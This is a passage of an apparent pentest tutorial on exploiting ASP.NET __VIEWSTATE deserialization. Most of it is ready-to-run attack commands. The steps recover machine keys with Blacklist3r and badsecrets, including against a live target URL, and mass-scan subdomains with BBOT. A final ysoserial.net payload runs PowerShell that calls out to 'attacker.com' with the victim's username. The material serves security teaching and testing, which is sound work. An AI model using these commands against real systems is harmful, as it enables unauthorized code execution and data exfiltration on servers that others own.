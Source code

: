 As the parameter is MAC protected this time to successfully execute the attack we first need the key used.

You can try to use [**Blacklist3r(AspDotNetWrapper.exe)** ](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper)to find the key used.

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
```

[**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) is another tool which can identify known machineKeys. It is written in Python, so unlike Blacklist3r, there is no Windows dependency. For .NET viewstates, there is a "python blacklist3r" utility, which is the quickest way to use it.

It can either be supplied with the viewstate and generator directly:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
```

![https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png](https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png)

Or, it can connect directly to the target URL and try to carve the viewstate out of the HTML:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx
```

![https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png](https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png)

To search for vulnerable viewstates at scale, in conjunction with subdomain enumeration, the `badsecrets` [**BBOT**](exploiting-__viewstate-parameter.md) module can be used:

```
bbot -f subdomain-enum -m badsecrets -t evil.corp
```

![https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png](https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png)

If you are lucky and the key is found,you can proceed with the attack using [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)**:**

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```
